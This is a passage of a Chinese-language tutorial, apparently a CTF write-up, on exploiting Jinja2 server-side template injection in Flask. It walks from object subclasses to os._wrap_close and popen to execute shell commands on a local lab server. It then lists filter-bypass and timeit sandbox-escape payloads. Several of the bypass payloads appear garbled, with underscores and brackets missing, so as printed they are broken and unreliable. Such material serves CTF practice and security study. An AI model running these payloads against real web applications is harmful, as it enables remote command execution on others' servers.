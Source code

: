 接下来就是我们需要找到合适的类，然后从合适的类中寻找我们需要的方法。这里开始我们不再用pycharm打印了，直接利用上面我们已经搭建好的漏洞环境来进行测试。通过我们在如上这么多类中一个一个查找，找到我们可利用的类，这里举例一种。<class   'os._wrap_close'>，os命令相信你看到就感觉很亲切。我们正是要从这个类中寻找我们可利用的方法，通过大概猜测找到是第119个类，0也对应一个类，所以这里写[118]。

	http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[118]}}

![](https://1024861435.github.io/assets/img/flask1.jpg)

这个时候我们便可以利用.init.globals来找os类下的，init初始化类，然后globals全局来查找所有的方法及变量及参数。

	http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__}}

此时我们可以在网页上看到各种各样的参数方法函数。我们找其中一个可利用的function  popen，在python2中可找file读取文件，很多可利用方法，详情可百度了解下

	http://127.0.0.1:5000/test?{{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()}}

![](https://1024861435.github.io/assets/img/flask2.jpg)

此时便可以看到命令已经执行。如果是在linux系统下便可以执行其他命令。此时我们已经成功得到权限。进下来我们将进一步简单讨论如何进行沙箱逃逸。

### ctf中的一些绕过tips

没什么系统思路。就是不断挖掘类研究官方文档以及各种能够利用的姿势。这里从最简单的绕过说起。

1.过滤[]等括号

使用gititem绕过。如原poc {{"".class.bases[0]}}

绕过后{{"".class.bases.getitem(0)}}

2.过滤了subclasses，拼凑法

原poc{{"".class.bases[0].subclasses()}}

绕过 {{"".class.bases[0]'subcla'+'sses'}}

3.过滤class

使用session

poc {{session['cla'+'ss'].bases[0].bases[0].bases[0].bases[0].subclasses()[118]}}

多个bases[0]是因为一直在向上找object类。使用mro就会很方便

	{{session['__cla'+'ss__'].__mro__[12]}}

或者

	request['__cl'+'ass__'].__mro__[12]}}

4.timeit姿势

可以学习一下  2017 swpu-ctf的一道沙盒python题，

	import timeit
	timeit.timeit("__import__('os').system('dir')",number=1)
	import platform
	print platform.popen('dir').read()

5.收藏的一些poc
